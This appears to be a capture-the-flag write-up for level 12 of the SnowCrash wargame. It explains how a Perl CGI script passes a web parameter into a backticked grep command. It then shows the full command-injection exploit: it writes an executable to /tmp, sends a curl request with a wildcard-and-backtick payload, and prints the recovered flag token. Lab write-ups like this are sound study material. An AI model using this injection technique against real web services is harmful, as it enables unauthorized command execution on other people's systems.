1. **File Search**

    We found a `level12.pl` file that shows Perl code that does the following:
    - Receives two web parameters: `x` and `y`.
    - Searches in `/xd` for lines that start with the value of `x` (uppercase and without spaces).
    - If the second part of the line matches `y` (as a regex), it prints `..`, otherwise it prints `.`
    1. The script uses the following line to search in the `/xd` file:
        ```bash
        @output = `grep "^$xx" /xd 2>&1`;
        ```
        The value of `$xx` comes directly from the `x` parameter received by the user, after converting it to uppercase and removing what follows a space.

2. **Vulnerability and Exploitation**

    The `level12.pl` script is vulnerable to command injection because it inserts the value of the `x` parameter directly into a shell command using backticks, after converting it to uppercase and removing what follows a space. This allows arbitrary commands to be executed if the executable file name is in uppercase and contains no spaces.
    1. We create an executable script /tmp/EXPLOIT that executes getflag and redirects the output to a file (/tmp/flag12).
    2. We use an HTTP request with curl so that the CGI executes our script using a wildcard and backticks in the x parameter:
    ```bash
    level12@SnowCrash:~$ cd /tmp
    level12@SnowCrash:/tmp$ echo -e \'#!/bin/bash\\ngetflag > /tmp/flag12\' > EXPLOIT
    level12@SnowCrash:/tmp$ chmod +x EXPLOIT
    level12@SnowCrash:/tmp$ curl "http://localhost:4646/?x=\`/*/EXPLOIT\`&y=.*"
    ..level12@SnowCrash:/tmp$ cat flag12
    Check flag.Here is your token : g1qKMiRpXf53AWhDaU7FEkczr
    ```

level12@SnowCrash:~$ curl localhost:4646/?x='`/*/SCRIPT`'
..level12@SnowCrash:~$ cat /tmp/flag
Check flag.Here is your token : g1qKMiRpXf53AWhDaU7FEkczr
level12@SnowCrash:~$ 


